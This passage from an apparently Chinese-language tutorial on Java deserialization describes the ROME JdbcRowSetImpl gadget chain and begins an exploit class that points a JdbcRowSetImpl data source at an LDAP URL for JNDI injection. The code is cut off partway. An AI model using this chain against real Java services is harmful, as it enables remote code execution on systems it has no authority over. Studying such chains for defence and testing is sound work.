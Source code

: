 [![](assets/1705886615-f673d0d9fb9139416604bdd9a9e06b48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124932-4d8eaa46-b74f-1.png)

然后来到了 ToStringBean 类的 toString 方法，获取\_beanClass 的所有 get 方法并调用，和前面的链一致

## 8\. JdbcRowSetImpl 利用链

### 利用链

```bash
JdbcRowSetImpl.connect()
JdbcRowSetImpl.getDatabaseMetaData()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashMap<K,V>.hash(Object)
HashMap<K,V>.readObject(ObjectInputStream)
```

### EXP

```bash
package RomeSec;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class JdbcRowExp {
    public static void main(String[] args) throws Exception{
        // ldap url
        String url = "ldap://127.0.0.1:1389/nils4f";

        // 创建JdbcRowSetImpl对象
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
        dataSource.setAccessible(true);
        dataSource.set(jdbcRowSet, url);

```
